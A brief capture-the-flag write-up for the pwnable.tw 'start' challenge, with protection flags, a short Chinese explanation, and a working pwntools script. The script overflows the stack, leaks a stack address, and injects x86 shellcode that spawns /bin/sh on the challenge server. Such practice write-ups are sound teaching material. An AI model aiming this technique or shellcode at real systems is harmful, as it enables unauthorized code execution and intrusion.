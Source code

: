 # poc

```
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
```

> 栈溢出 -> 泄漏栈地址 -> 将shellcode写在栈上 -> 执行`execve('/bin/sh\x00',0,0)`

由于栈可执行，考虑将shellcode写在栈上，栈溢出调用`write`输出程序一开始`push esp`的值获得栈地址，从而执行栈上shellcode。

# exp

```python
from pwn import *

DEBUG = 0

if DEBUG:
    context(log_level = 'debug')
    p = process('./start.dms')
    gdb.attach(p)
else:
    p = remote('chall.pwnable.tw', 10000)

p.recvuntil('CTF:')

payload = 'a' * 0x14        # pad
payload += p32(0x8048087)   # write - read - ret

p.send(payload)

addr = u32(p.recv(0x14)[:4])

payload = 'a' * 0x14        #pad
payload += p32(addr - 0x4 + 0x14 + 0x4)
payload += '\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'

p.sendline(payload)

p.interactive()
```

